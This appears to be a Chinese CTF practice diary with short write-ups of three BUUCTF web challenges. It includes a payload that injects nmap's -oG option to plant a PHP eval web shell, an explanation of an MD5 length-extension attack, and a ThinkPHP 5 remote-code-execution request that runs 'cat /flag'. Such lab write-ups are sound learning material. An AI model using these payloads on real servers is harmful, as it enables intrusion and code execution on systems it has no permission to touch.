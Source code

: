 # buu摸鱼日记（6）

昨天状态不好，摸了

## [BUUCTF 2018]Online Tool

说实话，刚开始一点头绪都没有

这类题做得少

看了wp才发现，真tm简单

```php
<?php

if (isset($_SERVER['HTTP_X_FORWARDED_FOR'])) {
    $_SERVER['REMOTE_ADDR'] = $_SERVER['HTTP_X_FORWARDED_FOR'];
}

if(!isset($_GET['host'])) {
    highlight_file(__FILE__);
} else {
    $host = $_GET['host'];
    $host = escapeshellarg($host);
    $host = escapeshellcmd($host);
    $sandbox = md5("glzjin". $_SERVER['REMOTE_ADDR']);
    echo 'you are in sandbox '.$sandbox;
    @mkdir($sandbox);
    chdir($sandbox);
    echo system("nmap -T5 -sT -Pn --host-timeout 2 -F ".$host);
}
```

先去查了$_SERVER是啥，请求数组什么的，里面是请求头里的东西（其实根本不用管）

关键在于那个host

> 
>
> escapeshellarg ( string `$arg` ) : string
>
> **escapeshellarg()** 将给字符串增加一个单引号并且能引用或者转码任何已经存在的单引号，这样以确保能够直接将一个字符串传入 shell 函数，并且还是确保安全的。对于用户输入的部分参数就应该使用这个函数。shell 函数包含 [exec()](https://www.php.net/manual/zh/function.exec.php), [system()](https://www.php.net/manual/zh/function.system.php) [执行运算符](https://www.php.net/manual/zh/language.operators.execution.php) 
>
> escapeshellcmd ( string `$command` ) : string
>
> **escapeshellcmd()** 对字符串中可能会欺骗 shell 命令执行任意命令的字符进行转义。 此函数保证用户输入的数据在传送到 [exec()](https://www.php.net/manual/zh/function.exec.php) 或 [system()](https://www.php.net/manual/zh/function.system.php) 函数，或者 [执行操作符](https://www.php.net/manual/zh/language.operators.execution.php) 之前进行转义。

这里有转义，所以管道什么的肯定是不行了。由于我没怎么用过nmap（好吧我承认我是个菜家伙），不知道命令，看了wp才知道nmap有一个参数-oG可以实现将命令和结果写到文件

呢么直接传马

根目录有flag（又是根目录）

```php
host=' <?php @eval($_POST["hack"]);?> -oG hack.php '
```

## [De1CTF 2019]SSRF Me

一进来就是flask源码，我有点懵逼

题目不难 就是hash长度拓展攻击（就是我看着这个代码审计晕了）

通过审计 调用方法 拿flag

就是在不知道key的具体值的时候 我们可以通过某些条件比如key的长度 某个已知明文通过MD5($key.已知明文)MD5值去推MD5($key.任意值)的MD5

```python
def getSign(action, param):
    return hashlib.md5(secert_key + param + action).hexdigest()
```

这里就是我们已知 secert_key + param + action(scan)值， 

~~我怎么感觉这题和ssrf没啥关系~~

## [BJDCTF 2nd]old-hack

被吊打

查了一下发现是thinkphp的洞

随便getpost值 就可以让他报错

就可以看到一大堆信息

对应版本有这个[rce漏洞](https://blog.csdn.net/xuandao_ahfengren/article/details/86333189)

[RCE thinkphp分析](https://www.smi1e.top/thinkphp-5-0-05-0-23-rce-漏洞分析/)

```
http://0f9f5bc1-7b35-447d-9468-ee4a2bf28c86.node3.buuoj.cn/?s=captcha

_method=__construct&filter[]=system&method=get&server[REQUEST_METHOD]=cat  /flag
```


